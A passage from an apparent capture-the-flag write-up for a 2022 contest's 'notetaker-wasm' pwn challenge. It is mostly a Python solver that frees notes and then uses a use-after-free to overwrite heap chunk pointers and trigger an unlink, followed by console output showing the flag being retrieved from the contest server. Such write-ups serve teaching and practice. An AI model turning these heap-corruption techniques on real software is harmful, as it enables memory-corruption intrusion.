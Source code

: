 ``` unlinked ``` from one list and so his ``` bk ``` pointer need to be write into the ``` fd->bk ``` value and 

delete(1)
delete(2)
delete(4)
delete(6)

# exploit UAF to tamper with heap metadata
write_note(2,b'AAAA\xe0\x16\x50')
write_note(2,b'AAA') # use for null byte at the end
write_note(2,b'fL') #

write_note(4,b'AAAA\xe2\x16\x50')
write_note(4,b'AAA') # use for null byte at the end
write_note(4,b'4g')

#cause unlink 2 and 4 
delete(3)
delete(5)

p.interactive()
'''
eurus@CTF:~/Scaricati/bcactf-2022/pwn_notetaker-wasm$ python3 solver.py
[+] Opening connection to bin.bcactf.com on port 49180: Done
[*] Switching to interactive mode
Note has been deleted
bcactf{e8f73a0ebcd82fcce8a}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to bin.bcactf.com port 49180
'''
```

